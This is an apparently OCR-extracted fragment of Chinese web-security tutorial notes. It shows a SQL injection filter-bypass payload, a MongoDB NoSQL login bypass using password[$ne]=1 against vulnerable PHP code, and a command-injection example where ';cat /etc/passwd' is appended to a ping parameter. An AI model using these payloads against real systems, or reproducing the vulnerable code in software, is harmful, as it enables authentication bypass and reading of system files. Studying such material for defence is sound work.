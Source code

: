 		/?id=1/**/union/*&id=*/select/*&id=*/pwd/*&id=*/from/*&id=*/users

	h)缓冲区溢出
	i)整合绕过

	2.3 nosql_injection—mongodb
	
	…
	
	$collection->find(array(
	
	“username” => $_GET[‘username’],
	
	“password” => $_GET[‘password’]
	
	));
	…
	
	http://x.x.x.x/login.php?username=admin&password[$ne]=1
	
	$collection->find(array(
	
	“username” => “admin”,
	
	“password” => array(“$ne” => 1)
	
	));
	
	$gt
	
	$gte
	
	$lt
	
	$lte
	
	$in
	
	$ne
	
	$and
	
	$not
	
	$or
	
	$exists
	
	$mod

2.4 command_injection

	<?php
	
	if (isset($_GET[‘ip’])) {
	
	$cmd = ‘ping -c1 ‘.$_GET[‘ip’];
	
	system($cmd);
	
	}

 

	http://localhost/index.php?ip=;cat+/etc/passwd
	